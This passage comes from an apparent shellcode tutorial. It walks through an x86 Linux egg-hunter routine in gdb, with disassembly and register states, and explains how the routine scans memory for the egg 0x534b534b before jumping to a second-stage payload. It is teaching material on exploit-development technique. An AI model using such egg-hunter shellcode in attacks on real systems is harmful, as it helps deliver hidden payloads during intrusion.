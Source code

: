 ```
   0x0804a081 <+33>:	jne    0x804a06a <egg_hunter+10>
   0x0804a083 <+35>:	scas   eax,DWORD PTR es:[edi]
   0x0804a084 <+36>:	jne    0x804a06a <egg_hunter+10>
   0x0804a086 <+38>:	jmp    edi
   0x0804a088 <+40>:	add    BYTE PTR [eax],al
End of assembler dump.
0x0804a07e in egg_hunter ()
```

A `DWORD` string comparison is conducted between the value in the `EAX` register, which is the `egg`, `0x534b534b`, and the value in the memory address currently pointed to by `EDI`, which is `0x4b	0x53	0x4b	0x53`. As this is a match, the zero flag is set and process will ignore the conditional jump instruction and move on to the following `scas` instruction.

It is important to note, that after the string comparison occurred, the `scas` instruction adds four bytes to the memory location pointed to by `EDI`. As such, `EDI` has been updated from `0x804a0a0` to `0x804a0a4`.

```nasm
(gdb)
$4041 = 0x534b534b
$4042 = 0x804a0a4
$4043 = 0x804a0a0
$4044 = 0x804a0a0
0x804a0a0 <second_stage>:	0x4b	0x53	0x4b	0x53
eflags         0x206	[ PF IF ]
Dump of assembler code for function egg_hunter:
   0x0804a060 <+0>:	cld    
   0x0804a061 <+1>:	xor    eax,eax
   0x0804a063 <+3>:	xor    edx,edx
   0x0804a065 <+5>:	or     dx,0xfff
   0x0804a06a <+10>:	inc    edx
   0x0804a06b <+11>:	lea    ebx,[edx+0x4]
   0x0804a06e <+14>:	mov    eax,0x21
   0x0804a073 <+19>:	int    0x80
   0x0804a075 <+21>:	cmp    al,0xf2
   0x0804a077 <+23>:	je     0x804a065 <egg_hunter+5>
   0x0804a079 <+25>:	mov    eax,0x534b534b
   0x0804a07e <+30>:	mov    edi,edx
=> 0x0804a080 <+32>:	scas   eax,DWORD PTR es:[edi]
   0x0804a081 <+33>:	jne    0x804a06a <egg_hunter+10>
   0x0804a083 <+35>:	scas   eax,DWORD PTR es:[edi]
   0x0804a084 <+36>:	jne    0x804a06a <egg_hunter+10>
   0x0804a086 <+38>:	jmp    edi
   0x0804a088 <+40>:	add    BYTE PTR [eax],al
End of assembler dump.
0x0804a080 in egg_hunter ()
(gdb)
$4045 = 0x534b534b
$4046 = 0x804a0a4
$4047 = 0x804a0a0
$4048 = 0x804a0a4
0x804a0a4 <second_stage+4>:	0x4b	0x53	0x4b	0x53
eflags         0x246	[ PF ZF IF ]
Dump of assembler code for function egg_hunter:
   0x0804a060 <+0>:	cld    
   0x0804a061 <+1>:	xor    eax,eax
   0x0804a063 <+3>:	xor    edx,edx
   0x0804a065 <+5>:	or     dx,0xfff
   0x0804a06a <+10>:	inc    edx
   0x0804a06b <+11>:	lea    ebx,[edx+0x4]
   0x0804a06e <+14>:	mov    eax,0x21
   0x0804a073 <+19>:	int    0x80
   0x0804a075 <+21>:	cmp    al,0xf2
```